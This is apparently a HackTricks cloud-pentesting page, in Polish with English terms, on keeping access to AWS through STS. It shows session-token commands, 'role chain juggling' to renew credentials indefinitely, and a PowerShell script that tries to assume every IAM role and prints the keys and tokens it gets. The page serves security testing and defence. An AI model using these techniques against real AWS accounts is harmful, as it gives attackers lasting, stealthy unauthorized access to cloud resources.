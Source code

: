 # AWS - STS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## STS

Więcej informacji:

{{#ref}}
../../aws-services/aws-sts-enum.md
{{#endref}}

### Assume role token

Tymczasowych tokenów nie można wylistować, więc utrzymanie aktywnego tokenu tymczasowego jest sposobem na utrzymanie persistence.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# With MFA
aws sts get-session-token \
--serial-number <mfa-device-name> \
--token-code <code-from-token>

# Hardware device name is usually the number from the back of the device, such as GAHT12345678
<strong># SMS device name is the ARN in AWS, such as arn:aws:iam::123456789012:sms-mfa/username
</strong># Vritual device name is the ARN in AWS, such as arn:aws:iam::123456789012:mfa/username
</code></pre>

### Role Chain Juggling

[**Role chaining is an acknowledged AWS feature**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_terms-and-concepts.html#Role%20chaining), często wykorzystywana do utrzymywania stealth persistence. Polega na możliwości **assume a role which then assumes another**, potencjalnie powracając do roli początkowej w **cyclical manner**. Za każdym razem, gdy rola zostanie assumed, pole expiration poświadczeń (credentials) jest odświeżane. W konsekwencji, jeśli dwie role są skonfigurowane tak, aby wzajemnie się assume'owały, rozwiązanie to umożliwia perpetual renewal of credentials.

Możesz użyć tego [**tool**](https://github.com/hotnops/AWSRoleJuggler/) aby utrzymać role chaining:
```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
-h, --help            show this help message and exit
-r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```
> [!CAUTION]
> Zwróć uwagę, że skrypt [find_circular_trust.py](https://github.com/hotnops/AWSRoleJuggler/blob/master/find_circular_trust.py) z tego repozytorium Github nie znajduje wszystkich sposobów, w jakie łańcuch roli może być skonfigurowany.

<details>

<summary>Kod do przeprowadzenia Role Juggling przy użyciu PowerShell</summary>
```bash
# PowerShell script to check for role juggling possibilities using AWS CLI

# Check for AWS CLI installation
if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) {
Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'."
exit
}

# Function to list IAM roles
function List-IAMRoles {
aws iam list-roles --query "Roles[*].{RoleName:RoleName, Arn:Arn}" --output json
}

# Initialize error count
$errorCount = 0

# List all roles
$roles = List-IAMRoles | ConvertFrom-Json

# Attempt to assume each role
foreach ($role in $roles) {
$sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
try {
$credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
if ($credentials) {
Write-Host "Successfully assumed role: $($role.RoleName)"
Write-Host "Access Key: $($credentials.AccessKeyId)"
Write-Host "Secret Access Key: $($credentials.SecretAccessKey)"
Write-Host "Session Token: $($credentials.SessionToken)"
Write-Host "Expiration: $($credentials.Expiration)"

# Set temporary credentials to assume the next role
$env:AWS_ACCESS_KEY_ID = $credentials.AccessKeyId
$env:AWS_SECRET_ACCESS_KEY = $credentials.SecretAccessKey
$env:AWS_SESSION_TOKEN = $credentials.SessionToken

# Try to assume another role using the temporary credentials
foreach ($nextRole in $roles) {
if ($nextRole.Arn -ne $role.Arn) {
$nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
try {
$nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
if ($nextCredentials) {
Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)"
Write-Host "Access Key: $($nextCredentials.AccessKeyId)"
Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)"
Write-Host "Session Token: $($nextCredentials.SessionToken)"
Write-Host "Expiration: $($nextCredentials.Expiration)"
}
} catch {
$errorCount++
}
}
}

# Reset environment variables
Remove-Item Env:\AWS_ACCESS_KEY_ID
Remove-Item Env:\AWS_SECRET_ACCESS_KEY
Remove-Item Env:\AWS_SESSION_TOKEN
} else {
$errorCount++
}
} catch {
$errorCount++
}
}

# Output the number of errors if any
if ($errorCount -gt 0) {
Write-Host "$errorCount error(s) occurred during role assumption attempts."
} else {
Write-Host "No errors occurred. All roles checked successfully."
}

Write-Host "Role juggling check complete."
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
